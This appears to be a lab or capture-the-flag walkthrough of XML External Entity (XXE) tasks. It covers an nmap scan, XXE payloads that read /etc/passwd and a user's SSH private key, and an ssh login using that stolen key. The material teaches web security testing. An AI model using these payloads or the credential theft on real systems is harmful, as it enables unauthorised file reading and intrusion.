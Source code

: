 Example `note.xml` file referring to `note.dtd`.
{% capture code %}{% raw %}<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE note SYSTEM "note.dtd">
  <note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
  </note>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 15 - [Severity 4] XML External Entity - XXE Payload

Use `nmap` to discover open ports using fast scan.
{% capture code %}{% raw %}nmap -Pn -T4 -sS -F <ip>
Starting Nmap 7.60 ( https://nmap.org ) at 2021-04-04 08:24 BST
Nmap scan report for <hostname> (<ip>)
Host is up (0.0012s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:92:AB:C9:74:07 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to load url `http://<ip>` and try the below payloads.
{% capture code %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
  <userInfo>
    <firstName>falcon</firstName>
    <lastName>&name ;</lastName>
  </userInfo>{% endcapture %} {% include code.html code=code%}

{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read ;</root>{% endcapture %} {% include code.html code=code %}

The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.


## Task 16 - [Severity 4] XML External Entity - Exploiting

Use `firefox` to load the url `http://<ip>`.

Use the following payloads to get the contents of `/etc/passwd`.
{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read ;</root>{% endcapture %} {% include code.html code=code %}

There is one non-system user. Use the following payload to read the user's rsa private key.
{% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
<root>&read ;</root>{% endcapture %} {% include code.html code=code %}

Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
{% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

